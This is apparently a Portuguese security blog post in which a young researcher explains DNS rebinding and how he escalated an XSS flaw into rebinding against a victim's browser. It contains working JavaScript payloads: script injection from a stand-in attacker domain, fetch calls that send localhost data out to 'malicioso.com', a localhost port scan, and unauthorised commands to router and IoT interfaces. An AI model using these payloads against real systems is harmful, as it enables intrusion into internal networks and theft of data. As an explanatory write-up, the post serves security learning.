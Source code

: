 ```yaml
---
layout: post
title: "exfiltração de dados usando dns rebinding em aplicações web"
date: 2024-12-12
categories: hacking
---
```


## introdução

meu nome é davi cruz, sou um jovem pesquisador de segurança com 14 anos. recentemente, durante uma análise de segurança, consegui evoluir um xss aparentemente inútil em um subdomínio para um ataque de dns rebinding no navegador da vítima. esse tipo de ataque pode parecer complicado à primeira vista, mas quando entendido em profundidade, revela-se uma ferramenta incrivelmente poderosa para exfiltração de dados e exploração de recursos internos.

este artigo vai detalhar como funciona o dns rebinding, como é possível combiná-lo com xss para ataques mais complexos e por que ele é uma técnica tão relevante em segurança web.

## o que é dns rebinding?

dns rebinding é uma técnica que explora como navegadores resolvem nomes de domínio e lidam com o cache de dns. ela permite que um atacante manipule um domínio para resolver para diferentes endereços ip ao longo do tempo. isso é especialmente útil para burlar a política de mesma origem (same-origin policy, sop) que normalmente restringe acessos entre diferentes domínios.

### fluxo básico do dns rebinding
1. o atacante registra um domínio malicioso, como `malicioso.com`.
2. o servidor dns controlado pelo atacante é configurado para responder inicialmente com o ip do servidor do atacante.
3. após carregar o código malicioso no navegador da vítima, o servidor dns altera a resolução para um ip interno da rede da vítima, como `127.0.0.1` ou `192.168.x.x`.
4. o navegador da vítima considera o novo ip como pertencente ao domínio original, permitindo que o código javascript acesse recursos internos.

imagem explicando o fluxo básico de dns rebinding:
![fluxo de dns rebinding](https://www.imperva.com/learn/wp-content/uploads/sites/11/2021/08/DNS-Rebinding-Attack.png)

### como funciona o cache de dns no navegador
quando um navegador faz uma requisição para um domínio, ele armazena o ip correspondente em um cache interno. o dns rebinding explora o fato de que alguns navegadores não validam continuamente se o ip do domínio mudou após a primeira resolução. isso permite que o domínio "rebind" para um novo ip sem restrições adicionais.

## evoluindo de um xss para dns rebinding

no caso específico que analisei, o ponto de partida foi um xss em um subdomínio aparentemente inútil. o processo para evoluir esse ataque foi o seguinte:

1. **identificação do xss**:
   - o subdomínio vulnerável permitia a injeção de scripts por meio de um parâmetro de url.
   - usei o seguinte payload para validar a vulnerabilidade:
     ```javascript
     <script>document.body.innerHTML = 'xss ativo';</script>
     ```

2. **carregando o script de dns rebinding**:
   - aproveitei o xss para injetar um script malicioso hospedado no meu domínio controlado (`malicioso.com`).
   - o payload final foi:
     ```javascript
     <script src="http://malicioso.com/script.js"></script>
     ```

3. **realizando o rebinding**:
   - o script injetado estabeleceu uma conexão inicial com `malicioso.com`. após 2 segundos, o servidor dns reconfigurou o domínio para apontar para `127.0.0.1`.
   - no navegador da vítima, o código continuou executando e conseguiu acessar recursos locais.

4. **acessando dados locais**:
   - após o rebinding, utilizei o script para acessar endpoints no localhost e exfiltrar dados:
     ```javascript
     fetch('http://127.0.0.1:8080/dados').then(res => res.text()).then(data => {
       fetch('http://malicioso.com/exfiltrar', {
         method: 'POST',
         body: data
       });
     });
     ```

imagem ilustrando o fluxo completo de xss para dns rebinding:
![xss para dns rebinding](https://miro.medium.com/max/1400/1*JfxfbHd4I0nGbyhViSGAog.png)

## exemplos práticos de exploração com dns rebinding

o dns rebinding pode ser usado para diversos fins maliciosos. abaixo estão alguns cenários que demonstram seu potencial.

### 1. acesso a serviços locais

muitas aplicações expõem serviços apenas na rede interna, como:
- painéis de administração de roteadores (`192.168.x.x`).
- serviços de banco de dados (ex: **elasticsearch**, **kibana**, **redis**).

com dns rebinding, é possível acessar esses serviços diretamente. exemplo:

```javascript
fetch('http://192.168.1.1/admin').then(res => res.text()).then(console.log);
```

### 2. varredura de portas

a técnica também pode ser usada para mapear portas abertas na máquina da vítima:

```javascript
for (let port = 8000; port < 8100; port++) {
  fetch(`http://127.0.0.1:${port}`).then(res => {
    console.log(`porta ${port} aberta!`);
  }).catch(err => {
    console.log(`porta ${port} fechada.`);
  });
}
```

### 3. manipulação de dispositivos iot

muitos dispositivos iot possuem interfaces web inseguras. com dns rebinding, é possível enviar comandos não autorizados para esses dispositivos:

```javascript
fetch('http://192.168.1.100/restart', {
  method: 'POST'
});
```

## exfiltração de dados sensíveis

a exfiltração de dados pode ser feita de maneira eficiente com dns rebinding. aqui está um exemplo de como enviar informações coletadas localmente para o servidor do atacante:

```javascript
fetch('http://127.0.0.1/dados').then(res => res.text()).then(data => {
  fetch('http://malicioso.com/exfiltrar', {
    method: 'POST',
    body: JSON.stringify({ dados: data })
  });
});
```

imagem demonstrando a exfiltração:
![exfiltração via dns rebinding](https://cdn-images-1.medium.com/max/1400/1*JfxfbHd4I0nGbyhViSGAog.png)


